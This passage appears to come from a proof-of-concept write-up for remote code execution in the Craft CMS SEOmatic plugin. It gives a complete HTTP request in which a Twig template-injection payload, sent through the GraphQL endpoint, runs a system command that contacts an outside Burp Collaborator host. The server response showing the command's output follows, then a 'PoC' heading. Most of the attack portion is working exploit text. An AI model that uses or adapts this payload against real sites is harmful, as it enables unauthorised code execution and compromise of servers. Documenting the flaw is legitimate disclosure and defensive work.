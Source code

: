 ```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: CRAFT_CSRF_TOKEN=65b1642b30dd16579ca51699a3392fc9a24f9802f181a5b0d1998c2f8464c15da%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A208%3A%22nzSA34Nh2-246okgxBRjTXG_qKeqgdezSL2hsKFH%7C0e8798e23345a2260452e8f25ae6cd879da745e39be67e71f9c1734da5eb2048nzSA34Nh2-246okgxBRjTXG_qKeqgdezSL2hsKFH%7C1%7C%242y%2413%24wK%2FYH5krqJrSeROBaQ9jbOjKdpMg2hHqVkwJij8Gb7z6vLkLwzohS%22%3B%7D; 
Content-Type: application/x-www-form-urlencoded
Content-Length: 262

query=query{seomatic(uri:"{%\nset+dum={\n'class':'yii\\\\base\\\\View'\n}\n%}{%\nset+dummy=create(dum)\n%}{{\ndummy.evaluateDynamicContent('echo+system(\\'host+3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net\\');')\n}}"){metaTitleContainer,metaTagContainer}}
```

```html
HTTP/1.1 200 OK
Server: nginx/1.17.3
Date: Fri, 30 Oct 2020 14:40:37 GMT
Content-Type: application/json; charset=UTF-8
Connection: close
X-Robots-Tag: none
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-Powered-By: Craft CMS
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Authorization, Content-Type, X-Craft-Token
Access-Control-Allow-Origin: *
Last-Modified: Friday, 30-Oct-2020 14:40:37 UTC
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate, max-age=0
Content-Length: 779

{"data":{"seomatic":{"metaTitleContainer":"<title>🚧 craft</title>","metaTagContainer":"<meta name=\"generator\" content=\"SEOmatic\"><meta name=\"referrer\" content=\"no-referrer-when-downgrade\"><meta name=\"robots\" content=\"none\"><meta content=\"ru_RU\" property=\"og:locale\"><meta content=\"craft\" property=\"og:site_name\"><meta content=\"website\" property=\"og:type\"><meta content=\"127.0.0.1:8000/3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net has address 52.16.21.24\n3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net mail is handled by 1 mail.3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net.\n3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net mail is handled by 1 mail.3bfekk3h7xxfbjupcfq82qmu0l6cu1.burpcollaborator.net.\" property=\"og:url\">"}}}
```

![Seomatic RCE](images/seomatic-rce.png)

### Awesome calc
Proof-of-Concept
![Seomatic RCE PoC](images/seomatic-rce-poc.mov)
